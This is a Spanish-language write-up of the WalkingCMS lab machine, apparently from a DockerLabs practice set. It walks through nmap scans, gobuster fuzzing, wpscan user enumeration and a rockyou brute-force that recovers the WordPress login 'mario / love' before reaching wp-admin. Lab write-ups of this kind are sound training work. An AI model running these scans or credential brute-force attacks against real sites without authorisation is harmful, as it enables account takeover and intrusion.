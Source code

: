 # WalkingCMS

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bashPORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Como tenemos abierto el puertos 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80`: Escaneo de los puertos 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
Cómo únicamente tenemos el puerto 80 abierto vamoa a enumerar desde la página web. Mientras vamos a ver la web dejamos corriendo **gobuster** para ir haciendo fuzzing.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php, txt, html
```
```
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php, txt, html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.                    (Status: 200) [Size: 10701]
/.php                 (Status: 403) [Size: 275]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 10701]
/server-status        (Status: 403) [Size: 275]
Progress: 661680 / 661683 (100.00%)
===============================================================
Finished
===============================================================
```
Ya vemos con el fuzzing que se trata de un wordpress, vamos a ver la página web y enumeramos con **wpscan**.

![wordpress](https://github.com/TBrux/DOCKERLABS/assets/168732212/46ea7c22-9d71-45cf-a4ec-5278d3473d36)

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp
```
```
[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```
Encontramos el usuario **mario** y con ese usuario y con **wpscan** trataremos de hacer fuerza bruta a ver si podemos conseguir la contraseña.
```bash
wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
```
```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love                                                                                                                                                                                                                   
Trying mario / badboy Time: 00:00:02 <                                                                                                                                                             > (390 / 14344782)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mario, Password: love
```
Hemos encontrado la contraseña **love**, así que ahora comprobamos si tenemos acceso al panel de login para acceder con mario:love 
```bash
❯ gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html
```
```
❯ gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/wordpress/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 301) [Size: 0] [--> http://172.17.0.2/wordpress/]
/wp-content           (Status: 301) [Size: 323] [--> http://172.17.0.2/wordpress/wp-content/]
/wp-login.php         (Status: 200) [Size: 6580]
/license.txt          (Status: 200) [Size: 19915]
/wp-includes          (Status: 301) [Size: 324] [--> http://172.17.0.2/wordpress/wp-includes/]
/readme.html          (Status: 200) [Size: 7401]
/wp-trackback.php     (Status: 200) [Size: 136]
/wp-admin             (Status: 301) [Size: 321] [--> http://172.17.0.2/wordpress/wp-admin/]
/xmlrpc.php           (Status: 405) [Size: 42]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://172.17.0.2/wordpress/wp-login.php?action=register]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```
Vemos que tenemos acceso al panel de **/wp-admin** y que con las credenciales obtenidas tenemos acceso.

